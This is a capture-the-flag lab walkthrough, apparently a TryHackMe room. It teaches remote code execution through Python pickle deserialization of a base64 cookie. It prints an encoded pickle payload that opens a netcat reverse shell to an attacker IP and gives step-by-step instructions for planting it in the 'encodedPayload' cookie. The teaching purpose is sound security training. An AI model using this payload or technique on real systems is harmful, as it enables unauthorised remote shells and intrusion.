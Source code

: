 This vulnerability exploits Python Pickle, which I have attached as reading material at the end of the room. We essentially have free reign to execute whatever we like such as a reverse shell.

.:. The Exploit .:.

Now I'm not going to leave you hanging dry here. First, we need to set up a netcat listener on our Kali. If you are a subscriber, you can control your own [in-browser TryHackMe Kali Machine](https://tryhackme.com/my-machine).

![](https://i.imgur.com/Ftsfnq0.png)

Because the code being deserialized is from a base64 format, we cannot just simply spawn a reverse shell. We must encode our own commands in base64 so that the malicious code will be executed. I will be detailing the steps below with provided material to do so.

Once this is complete, [copy-and-paste the source code from this Github page](https://gist.github.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3) to your kali and modify the source code to replace your "YOUR_TRYHACKME_VPN_IP" with your TryHackMe VPN IP. [This can be obtained via the Access page](https://tryhackme.com/access).

1. Create a python file to paste into, I have used "rce.py" for these examples:

![](https://i.imgur.com/k93pazM.png)

2. Paste the code from the GitHub site, replacing YOUR_TRYHACKME_VPN_IP with your TryHackMe VPN IP from the access page

![](https://i.imgur.com/gfR2lcf.png)

3. Execute "rce.py" via `python3 rce.py`
4. Note the output of the command, it will look something similar to this:

![](https://i.imgur.com/67OUbwN.png)

5. Copy and paste everything in-between the two speech marks ('DATA'). In my case, I will copy and paste:

`gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=`

Yours may look slightly different, just ensure that you copy everything in-between the two speech marks `''`

6. Paste this into the "encodedPayload" cookie in your browser:

![](https://i.imgur.com/fZDayjD.png)

7. Ensure our netcat listener is still running:
8. Refresh the page. It will hang, refer back to your netcat listener:

![](https://i.imgur.com/WESTagT.png)

If you have performed the steps correctly, you will now have a remote shell to your instance. No privilege escalation involved, look for the flag.txt flag!

1. flag.txt

